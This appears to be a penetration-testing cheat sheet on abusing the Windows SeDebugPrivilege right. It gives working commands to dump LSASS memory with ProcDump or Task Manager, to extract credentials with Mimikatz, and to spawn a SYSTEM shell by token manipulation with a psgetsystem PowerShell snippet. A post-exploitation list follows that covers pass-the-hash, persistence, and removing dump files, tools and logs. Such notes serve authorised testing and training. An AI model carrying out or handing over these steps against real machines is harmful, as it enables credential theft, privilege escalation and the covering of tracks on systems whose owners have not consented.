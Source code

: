 ### Technique Name:

SeDebugPrivilege
### Summary:

`SeDebugPrivilege` allows a user to open, inspect, and manipulate the memory of processes owned by other users—including SYSTEM. This powerful right is meant for developers to debug system services but can be abused by attackers to dump sensitive memory (e.g., LSASS) or impersonate SYSTEM processes, resulting in privilege escalation. It's commonly used to extract credential material or gain SYSTEM access.
### Conditions:

- `SeDebugPrivilege` assigned to current user (can be checked via `whoami /priv`)
- Must run in an **elevated shell** for the privilege to function
- Requires ability to execute local binaries or scripts (e.g., Mimikatz, ProcDump, PowerShell)
- Not all environments allow tool uploads or memory dumping, so RDP or interactive sessions help
### Enumeration:

```powershell
# Check if SeDebugPrivilege is assigned
whoami /priv

# Confirm current user context
whoami

# Optional: Check group policy assignment (manually or via registry)
# Local Policy path: gpedit.msc > Computer Configuration > Windows Settings > Security Settings > Local Policies > User Rights Assignment
```
### Exploitation:

#### 1. Dumping LSASS with ProcDump
```cmd
# Dump LSASS process memory
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
#### 2. Parsing Dump with Mimikatz

```cmd
mimikatz.exe

mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
#### 3. Manual Dump via Task Manager (if RDP access exists)

- Open Task Manager → Details tab → Right-click `lsass.exe` → “Create Dump File”
- Download `.dmp` file and process with Mimikatz
#### 4. SYSTEM Shell via Token Manipulation (PowerShell PoC)

- Download and import the [psgetsystem](https://github.com/decoder-it/psgetsystem) PowerShell script

```powershell
# From elevated PowerShell:
tasklist                         # Identify SYSTEM process like winlogon.exe
[MyProcess]::CreateProcessFromParent(612,"cmd.exe","")
```

Alternatively:

```powershell
$pid = (Get-Process winlogon).Id
[MyProcess]::CreateProcessFromParent($pid,"cmd.exe","")
```
### Post-Exploitation:

* Extract credential material (NTLM hashes, plaintext creds) from LSASS
* Attempt **pass-the-hash** to other machines (if local admin reused)
* Maintain SYSTEM-level persistence (e.g., new service, user, schedule)
* Use SYSTEM shell to bypass local protections, dump SAM/SECURITY
* Clean up: remove dump files, tools, and logs
* Monitor Event ID 4688 and 4673 (privileged process activity and sensitive privilege usage)
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #User_Privs